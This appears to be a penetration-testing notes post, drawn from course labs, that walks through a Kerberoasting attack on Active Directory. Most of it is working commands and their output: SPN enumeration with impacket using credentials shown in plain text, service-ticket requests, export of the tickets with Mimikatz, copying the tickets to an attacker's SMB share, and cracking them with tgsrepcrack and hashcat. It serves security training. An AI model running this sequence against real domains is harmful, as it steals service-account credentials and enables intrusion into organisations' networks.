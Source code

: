 ```yaml
---
description: >-
  Kerberoasting Attack
title: Kerberoasting              # Add title here
date: 2022-12-08 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Authentication]          # Change Templates to Writeup
tags: [active directory, authentication, kerberoasting, tgs, spn]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Extracting SPNs from kali
parameter (-k) is used for Kerberos Authentication (NTLM is used by default):
```bash
# Example 1 (with Kerberos)
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-ip dc1.scrm.local -request
# Example 2 (with NTLM Auth)
impacket-GetUserSPNs htb.local/amanda:Ashare1972 -request
```
Examples:
[Scramble](https://shuciran.github.io/posts/Scramble/#fnref:kerberoasting-attack)
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:kerberoasting)

[[Active#^659f81]]

> If we need to request a TGS against Kerberos, a modification on GetUserSPNs.py file is needed, further reading about this [issue](https://github.com/fortra/impacket/issues/1206) is needed to accomplish such authentication.
{: .prompt-tip }

### Extracting SPNs from compromised machine

Recalling the explanation of the Kerberos protocol, we know that when the user wants to access a resource hosted by a SPN, the client requests a service ticket that is generated by the domain controller. The service ticket is then decrypted and validated by the application server, since it is encrypted through the password hash of the SPN.

When requesting the service ticket from the domain controller, no checks are performed on whether the user has any permissions to access the service hosted by the service principal name. These checks are performed as a second step only when connecting to the service itself. This means that if we know the SPN we want to target, we can request a service ticket for it from the domain controller. Then, since it is our own ticket, we can extract it from local memory and save it to disk.

We will abuse the service ticket and attempt to crack the password of the service account.

For example, we know that the registered SPN for the Internet Information Services web server in the domain is _HTTP/CorpWebServer.corp.com_. From PowerShell, we can use the _KerberosRequestorSecurityToken_ class to request the service ticket.

The code segment we need is located inside the _System.IdentityModel_ namespace, which is not loaded into a PowerShell instance by default. To load it, we use the _Add-Type_ cmdlet with the _-AssemblyName_ argument.

First download GetUserSNPS.ps1 from Internet:
[GetUserSPNs.ps1](https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1)

Execute the .ps1 with powershell, the output will be the Service Accounts:

```powershell
PS C:\Users\nathan> C:\Users\nathan\Desktop\GetUserSPNS.ps1

ServicePrincipalName : DC01/Allison.offsec.local:5999
Name                 : Allison
SAMAccountName       : Allison
MemberOf             : 
PasswordLastSet      : 2/22/2022 10:35:56 AM

ServicePrincipalName : kadmin/changepw
Name                 : krbtgt
SAMAccountName       : krbtgt
MemberOf             : CN=Denied RODC Password Replication 
                       Group,CN=Users,DC=offsec,DC=local
PasswordLastSet      : 2/4/2022 10:29:28 AM
```

We can call the _KerberosRequestorSecurityToken_ constructor by specifying the SPN with the _-ArgumentList_ option as shown below.

```powershell
PS C:\Users\nathan\Desktop> Add-Type -AssemblyName System.IdentityModel
PS C:\Users\nathan\Desktop> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'DC01/Allison.offsec.local:5999'
```

After execution, the requested service ticket should be generated by the domain controller and loaded into the memory of the Windows 10 client. Instead of executing Mimikatz all the time, we can also use the built-in klist command to display all cached Kerberos tickets for the current user:

```
PS C:\Users\offsec.CORP> klist

Current LogonId is 0:0x3dedf

Cached Tickets: (4)

#0>	Client: Offsec @ CORP.COM
	Server: krbtgt/CORP.COM @ CORP.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicaliz
	Start Time: 2/12/2018 10:17:53 (local)
	End Time:   2/12/2018 20:17:53 (local)
	Renew Time: 2/19/2018 10:17:53 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: DC01.corp.com

#1>	Client: Offsec @ CORP.COM
	Server: HTTP/CorpWebServer.corp.com @ CORP.COM
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_cano
	Start Time: 2/12/2018 10:18:31 (local)
	End Time:   2/12/2018 20:17:53 (local)
	Renew Time: 2/19/2018 10:17:53 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0 
	Kdc Called: DC01.corp.com
...
```

With the service ticket for the Internet Information Services service principal name created and saved to memory, we can download it from memory using either built-in APIs or Mimikatz.

To download the service ticket with Mimikatz, we use the kerberos::list command, which yields the equivalent output of the klist command above. We also specify the /export flag to download to disk as shown below.

```
mimikatz # kerberos::list /export

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 12/02/2018 10.17.53 ; 12/02/2018 20.17.53 ; 19/02/2018 10.17.53
   Server Name       : krbtgt/CORP.COM @ CORP.COM
   Client Name       : Offsec @ CORP.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forward
   \* Saved to file     : 0-40e10000-Offsec@krbtgt~CORP.COM-CORP.COM.kirbi

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/02/2018 10.18.31 ; 12/02/2018 20.17.53 ; 19/02/2018 10.17.53
   Server Name       : HTTP/CorpWebServer.corp.com @ CORP.COM
   Client Name       : Offsec @ CORP.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ;
   \* Saved to file     : 1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

According to the Kerberos protocol, the service ticket is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt it using brute force or guessing (in a technique known as _Kerberoasting_), we will know the password hash, and from that we can crack the clear text password of the service account. As an added bonus, we do _not_ need administrative privileges for this attack.

Let's try this out. To perform a wordlist attack, we must first install the _kerberoast_ package with apt and then run tgsrepcrack.py, supplying a wordlist and the downloaded service ticket:

Note that the service ticket file is binary. Keep this in mind when transferring it with a tool like Netcat, which may mangle it during transfer.

```
kali@kali:~$ sudo apt update && sudo apt install kerberoast
...
kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi 
found password for ticket 0: Qwerty09!  File: 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
All tickets cracked!
```

Also it can be extracted with impacket-smbserver, converted to a hash that hashcat understands and then decrypted:

Kali:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support
```

Victim-Machine:
```bash
copy *.kirbi \\192.168.119.248\shareFolder\*
```

Then convert the .kirbi files to hashes with kirbi2john:

```bash
kirbi2john *.kirbi > hash.txt
```

Finally extract the hashes from hash.txt and crack them with hashcat.exe (on your local machine if possible since hashcat works better if it has access to your GPU directly):
```cmd
D:\Programs\hashcat-6.2.5>hashcat.exe -m 13100 -a 0 hash.txt rockyou.txt
```

In this example we successfully cracked the service ticket and obtained the clear text password for the service account.

This technique can be very powerful if the domain contains high-privilege service accounts with weak passwords, which is not uncommon in many organizations. However, if managed or group managed service accounts are employed for the specific SPN, the password will be randomly generated, complex, and 120 characters long, making cracking infeasible.

Although this example relied on the kerberoast tgsrepcrack.py script, we could also use John the Ripper[8](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/active-directory-attacks/active-directory-authentication/service-account-attacks#fn8) and Hashcat[9](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/active-directory-attacks/active-directory-authentication/service-account-attacks#fn9) to leverage the features and speed of those tools.

The [_Invoke-Kerberoast.ps1_](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1) script extends this attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat, completely eliminating the need for Mimikatz in this attack.
